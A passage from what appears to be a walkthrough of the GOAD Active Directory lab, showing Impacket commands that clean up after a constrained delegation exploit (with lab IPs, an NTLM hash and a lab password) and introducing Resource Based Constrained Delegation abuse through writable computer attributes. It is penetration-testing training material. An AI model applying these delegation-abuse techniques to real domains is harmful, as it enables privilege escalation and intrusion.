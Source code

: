 ![deleg_constraint_deleg_exploit2.png](/assets/blog/GOAD/deleg_constraint_deleg_exploit2.png)

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:

```bash
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```

## Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)

- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity

> A computer account can edit his own attribute msDS-AllowedToActOnBehalfOfOtherIdentity
> This is usefull when you do ldaps NTLM relay (like in the drop-the-mic attack path), you can then edit the computer attribute and launch an RBCD exploitation.
{: .prompt-tip }

- An example of exploitation is when you got genericAll or genericWrite ACL on a Computer.

- You can find this in the lab when you look at the acl on users.

![deleg_find_acl.png](/assets/blog/GOAD/deleg_find_acl.png)
